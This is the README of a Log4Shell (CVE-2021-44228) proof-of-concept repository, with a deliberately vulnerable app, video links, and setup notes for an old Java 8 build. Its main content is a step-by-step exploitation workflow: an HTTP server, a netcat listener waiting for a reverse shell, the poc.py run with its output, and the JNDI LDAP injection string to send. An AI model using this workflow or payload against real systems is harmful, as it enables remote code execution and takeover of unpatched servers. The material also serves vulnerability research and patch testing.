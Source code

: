 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.


A video showing the exploitation process
----------------------------------------

Minecraft PoC:

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4

<br>

Vuln Web App:

https://user-images.githubusercontent.com/46561460/145657039-5f844e8c-e90c-4dd1-9f32-02b27068c6a2.mp4

<br>

Ghidra:

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4


Proof-of-concept (POC)
----------------------



As a POC we have created a python file that automates the process.

* Start an http server.<br>
**Note:** This must be run in the same directory as the rest of the repository.
```py
sudo python3 -m http.server 80
```
* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
python3 poc.py
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)


[+] Enter IP for LDAPRefServer & Shell: localhost
[+] Enter listener port for LDAPRefServer: 80
[+] Set listener port for shell: 9001
[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

<br>


Our vulnerable application
--------------------------

Running the application currently is easiest done in the payed version of intelj, but we plan on adding a Dockerfile in the future.

If you would like to further develop the project you can use intelj IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting an old enough version of java.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```
